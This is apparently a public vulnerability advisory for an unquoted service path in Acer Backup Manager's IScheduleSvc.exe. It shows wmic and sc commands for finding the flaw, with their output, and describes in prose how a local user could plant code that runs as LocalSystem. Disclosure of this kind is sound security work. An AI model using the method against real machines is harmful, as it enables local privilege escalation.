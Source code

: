 EXP
---

    # Exploit Title: Acer Backup Manager Module 3.0.0.99 - 'IScheduleSvc.exe'  Unquoted Service Path
    # Discovery by: Emmanuel Lujan
    # Discovery Date: 2021-05-19
    # Vendor Homepage: https://www.acer.com/ac/en/US/content/home
    # Tested Version: 3.0.0.99
    # Vulnerability Type: Unquoted Service Path
    # Tested on OS: Windows 7 Home Premium x64

    # Step to discover Unquoted Service Path:

    C:\>wmic service get name, pathname, displayname, startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

    NTI IScheduleSvc                                                        NTI ISch
    eduleSvc                              C:\Program Files (x86)\NTI\Acer Backup Man
    ager\IScheduleSvc.exe                                     Auto


    # Service info:

    C:\>sc qc "NTI IScheduleSvc"
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: NTI IScheduleSvc
            TYPE               : 110  WIN32_OWN_PROCESS <interactive>
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\Program Files (x86)\Acer Backup Manager\IScheduleSvc.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : NTI IScheduleSvc
            DEPENDENCIES       :
            SERVICE_START_NAME : LocalSystem

    #Exploit:

    A successful attempt would require the local user to be able to insert their code in the system root path undetected by the OS or other
     security applications where it could potentially be executed during application startup or reboot. If successful, the local user's
    code would execute with the elevated privileges of the application.